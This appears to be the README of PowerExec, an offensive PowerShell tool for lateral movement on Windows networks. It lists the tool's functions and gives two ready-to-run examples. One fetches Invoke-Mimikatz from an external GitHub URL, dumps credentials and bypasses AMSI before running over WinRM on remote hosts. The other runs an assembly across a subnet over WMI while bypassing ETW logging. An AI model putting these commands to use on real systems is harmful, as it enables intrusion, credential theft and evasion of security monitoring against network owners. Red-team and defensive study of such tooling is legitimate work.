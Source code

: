 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
Get-PowerLoader                 -   build script block which safely loads PowerShell or .NET assembly
```

## Examples

Run a PowerShell script through WinRM using a download cradle while bypassing Antimalware Scan Interface (AMSI):

```
PS C:\> Get-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM
```

Run a .NET assembly through WMI while bypassing Event Tracing for Windows (ETW):

```
PS C:\> Get-PowerLoader -Type NetAsm -FilePath .\sample.exe -Bypass ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Threads 10
```

